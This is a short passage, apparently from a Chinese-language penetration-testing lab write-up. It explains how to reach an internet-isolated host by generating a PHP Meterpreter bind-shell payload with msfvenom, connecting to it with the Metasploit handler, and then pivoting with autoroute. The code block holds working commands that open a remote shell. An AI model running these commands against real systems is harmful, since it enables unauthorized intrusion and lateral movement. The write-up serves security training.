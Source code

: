 ![image-20221226171840235](../../images//image-20221226171840235.png)



### 4.2 目标主机不出网的机制

在目标主机可以无法访问互联网的情况下，可以直接通过Bindshell与msf进行连接。

去除掉port3-port2的访问规则后，则代表着二层网络中的主机无法与msf的主机直接通讯。

```
msfvenom -p php/meterpreter/bind_tcp  LPORT=4444 -f raw >bindshell.php
vi bindshell   <去除注释字符>
use exploit/multi/handler
set payload php/meterpreter/bind_tcp
set lport 80
set rhost 172.16.1.5
```

![image-20221226174321719](../../images//image-20221226174321719.png)

而后通过autoroute建立路由信息即可将流量传递至第三层。
